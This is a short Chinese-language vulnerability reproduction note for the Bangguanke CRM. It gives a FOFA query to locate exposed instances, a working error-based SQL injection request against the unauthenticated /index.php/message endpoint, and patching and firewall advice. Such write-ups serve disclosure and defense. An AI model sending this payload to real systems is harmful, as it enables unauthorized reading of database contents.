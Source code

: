 
# 帮管客CRM SQL注入漏洞复现

### 0x01 产品简介

  帮管客CRM是一款集客户档案、销售记录、业务往来等功能于一体的客户管理系统。帮管客[CRM客户管理系统](https://so.csdn.net/so/search?q=CRM%E5%AE%A2%E6%88%B7%E7%AE%A1%E7%90%86%E7%B3%BB%E7%BB%9F&spm=1001.2101.3001.7020)，客户管理，从未如此简单，一个平台满足企业全方位的销售跟进、智能化服务管理、高效的沟通协同、图表化[数据分析](https://www.pc6.com/pc/shujufenxiruanjian/ "数据分析")帮管客颠覆传统，重新定义企业管理系统。 

### 0x02 漏洞概述

 帮管客CRM 客户管理系统/index.php/message 接口存在 sql 注入漏洞，未经身份认证的攻击者可通过此漏洞获取数据库敏感信息。

### 0x03 复现环境

FOFA：app="帮管客-CRM"

![](assets/1701071224-224ddc4f5ba3129f8b26ab3a3d8d9101.png)

### 0x04 漏洞复现 

PoC

```cobol
GET /index.php/message?page=1&pai=1%20and%20extractvalue(0x7e,concat(0x7e,(select+user%28%29),0x7e))%23&xu=desc HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Accept-Encoding: gzip, deflate
Connection: close
```

查询当前用户

### ![](assets/1701071224-27fdfa86e7abe1264ab334e250935987.png)0x05 修复建议

官方已发布安全版本，请用户联系厂商修复漏洞：https://www.bgk100.com/

部署Web应用防火墙，对数据库操作进行监控。

如非必要，禁止公网访问该系统。

###
